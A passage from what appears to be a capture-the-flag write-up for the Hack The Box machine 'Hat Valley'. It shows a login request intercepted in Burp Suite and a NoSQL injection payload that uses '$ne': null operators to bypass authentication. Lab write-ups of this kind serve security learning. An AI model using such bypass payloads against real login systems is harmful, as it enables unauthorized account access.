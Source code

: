 ![](./assets/2023-01-30-20-53-51-image.png)

## Foothold

Let's try and log in with admin / foobar, and intercept the request in Burp Suite:

```
POST /api/login HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://hat-valley.htb/hr
Content-Type: application/json
Content-Length: 40
Origin: http://hat-valley.htb
DNT: 1
Connection: close
Cookie: token=guest
Pragma: no-cache
Cache-Control: no-cache

{"username":"admin","password":"foobar"}
```

I attempted a basic login bypass with the following payload substituted into the above:

```

{
  "username": {
    "$ne": null
  },
  "password": {
    "$ne": null
   }
}
```
